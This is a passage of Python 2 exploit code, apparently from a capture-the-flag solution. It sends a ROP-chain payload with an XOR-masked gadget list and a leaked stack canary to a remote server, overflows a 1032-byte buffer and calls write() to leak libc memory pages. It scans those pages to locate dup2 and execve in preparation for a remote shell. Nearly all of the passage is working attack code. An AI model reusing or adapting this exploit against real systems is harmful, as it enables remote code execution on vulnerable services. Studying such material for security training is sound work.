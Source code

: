 ```python
            print "Found dup2 @ {}".format(hex(dup2_remote_addr))

        
        if execve_start in page_data:
            execve_remote_addr = libc_page + page_data.index(execve_start)
            print "Found execve @ {}".format(hex(execve_remote_addr))


        s.close()
        libc_page -= page_size  # scan down

    except EOFError:
        break


# scan up
print "scanning up"
libc_page = unpack(write_libc) & 0xfffffffffffff000
while dup2_remote_addr == 0 or execve_remote_addr == 0:
    try:
        payload = "davide" + "AA"
        payload += p64(gadget_pop_rdi_ret ^ Ds)
        payload += p64(0x4 ^ Ds)
        payload += p64(gadget_pop_rsi_pop_r15_ret ^ Ds)
        payload += p64(libc_page ^ Ds)   # buffer = page
        payload += p64(0x1337)   # pop r15, dont-care
        payload += p64(gadget_pop_rdx_ret ^ Ds)
        payload += p64(page_size ^ Ds)  # length
        payload += p64(text_section_write_plt ^ Ds)
        # Pad to the end of buffer
        payload += "B" * (1032 - len(payload))
        payload += p64(canary ^ Ds)
        payload += p64(buffer_addr ^ Ds)
        payload += p64(text_section_leave_ret ^ Ds)

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(SERVER)
        s.recv(4096)  # server hello
        s.send(payload)

        page_data = s.recv(page_size)
        if len(page_data) == 0:
            break

        if dup2_start in page_data:
            dup2_remote_addr = libc_page + page_data.index(dup2_start)
            print "Found dup2 @ {}".format(hex(dup2_remote_addr))

        
        if execve_start in page_data:
            execve_remote_addr = libc_page + page_data.index(execve_start)
            print "Found execve @ {}".format(hex(execve_remote_addr))


        s.close()
        libc_page += page_size  # scan down
    except EOFError:
        break

print "libc scan over"
```